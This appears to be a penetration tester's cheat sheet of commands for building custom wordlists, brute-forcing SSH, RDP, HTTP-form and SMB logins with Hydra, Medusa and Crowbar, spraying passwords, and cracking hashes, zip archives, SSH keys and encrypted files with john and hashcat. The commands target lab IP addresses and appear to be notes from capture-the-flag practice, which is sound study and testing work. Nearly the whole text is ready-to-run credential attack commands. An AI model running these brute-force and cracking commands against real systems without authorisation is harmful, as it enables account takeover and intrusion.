 ## Wordlists:
    kali: /usr/share/wordlists
    https://github.com/danielmiessler/SecLists
    Custom Wordlists:
        Website Scraping Example:
          cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt
          edit /etc/john/john.conf, adding rule that mutates our wordlist by adding 2 numbers at the end of each word:   $[0-9]$[0-9]
          john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt
        Pattern Example:
          crunch 8 8 -t ,@@^^%%%
          only certain characters:  crunch 4 6 0123456789ABCDEF -o crunch.txt

## Login Brute-Forcing:
        HTTP htaccess attack with Medusa:
            medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
        RDP attack with Crowbar:
            crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
        SSH attack with THC-Hydra:
             hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
             With a list:   hydra -L userlist.txt -P passwordlist.txt ssh://10.10.10.184
        HTTP POST attack with THC-Hydra:
            hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -f
            hydra 10.10.10.43 https-form-post "/db/index.php:remember=yes&login=Log+In&proc_login=true&password=^PASS^:Incorrect password" -s 443 -P /usr/share/wordlists/rockyou.txt -f
            no username: -l ''
            hydra 10.10.10.184 -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password\!" -f
            hydra 10.10.10.184 -l admin -P /usr/share/wordlists/rockyou.txt https-post-form "/index.php:__csrf_magic=sid%3Ad38e7d40800f071201501427269c237c40fa4482%2C1614984752&usernamefld=^USER^&passwordfld=^PASS^&login=Login:Username or Password incorrect" -f
            List:  hydra 10.10.10.191 -l fergus -P passwordlist.txt http-post-form "/admin/login:username=^USER^&password=^PASS^&save=:Username or password incorrect" -f
            CSRF token means probably won't work
        HTTP Authentication:
            hydra 10.10.10.10 -l username -P /usr/share/wordlists/rockyou.txt http-get -s 34226
     
	If other options fail but you have usernames, spray for passwords:
		cewl http://example.com/index.htm --with-numbers > wordlist
		hydra -L users -P wordlist 10.10.10.193 smb
		then try to login w/ creds:  smbclient -U username -L \\\\10.10.10.193
			If Password Must Change error: change it with:  smbpasswd -r 10.10.10.193 username
				If it reverts/resets quickly, use one-liner to run commands:  if echo "$pass" | smbclient -L //10.10.10.193 -U username 2>/dev/null >/dev/null; then echo "Password $pass still good"; else pass=$(date +%s | md5sum | base64 | head -c7; echo .); (echo '<Hostname>'; echo "$pass"; echo "$pass";) | smbpasswd -r 10.10.10.193 -s username; echo "password reset to $pass"; fi; [command here]
		Then enumerate smb and rpc using creds
     
     
## Password Cracking:  
	  hash-identifier
	  $5$ sha256, 
	  gunzip /usr/share/wordlists/rockyou.txt
	  Online:  https://crackstation.net/
	  John the Ripper:
		    john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
		    With rules:   john --rules --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
		    Show formats:  john --list=formats
		    View results:  john hash.txt --show
	  Hashcat (GPU-based):
	      Modes: 3200 bcrypt, 7400 sha256	      
	      Examples:
	      	      Bcrypt:  hashcat -m 3200 --user hash /usr/share/wordlists/rockyou.txt
		      hashcat -m 1000 -a 0 --force --show --username hash.txt wordlist1.lst
		      hashcat -a 0 -m 13100 hash /usr/share/wordlists/rockyou.txt
		      .\hashcat.exe -m 3200 -a 3 hashes.txt 'SKY-TEST-?d?d?d?d' --- known format, brute force mode
	      Convert SQL hash output to Hashcat format:  cat db_hashes | tr -d "|" | awk '{print $1":"$3}' | tee hashes
	      Rule Example:
		  password is some variation of PleaseSubscribe!
		  echo -n "PleaseSubscribe\!" > rulefile.txt
		  hashcat -a 0 -m 3200 -r /usr/share/hashcat/rules/best64.rule /root/hash.txt rulefile.txt
	      BEST RULE FILE: /usr/share/hashcat/rules/OneRuleToRuleThemAll.rule
		      hashcat64.exe --force -m300 --status -w3 -o found.txt --remove --potfile-disable -r rules\OneRuleToRuleThemAll.rule hash.txt rockyou.txt
	  Other File Formats:
	    Zip: fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup
	      Or: zip2john ...
	    SSH Key: /usr/share/john/ssh2john.py id_rsa > id_rsa.john ;  john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
			  make copy without pw:  openssl rsa -in id_rsa -out id_rsa_nopass
	    keepass2john (.kdbx file)
	    rar2john
	    tar.gz.enc file: netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output=/tmp/out.tar.gz ;  tar -xf out.tar.gz  
	    Openssl base64 encoded file:  cat /usr/share/wordlists/rockyou.txt | while read pass; do openssl enc -d -a -AES-256-CBC -in .drupal.txt.enc -k $pass > devnull 2>&1; if [[ $? -eq 0 ]]; then echo "Password: $pass"; exit; fi; done;  

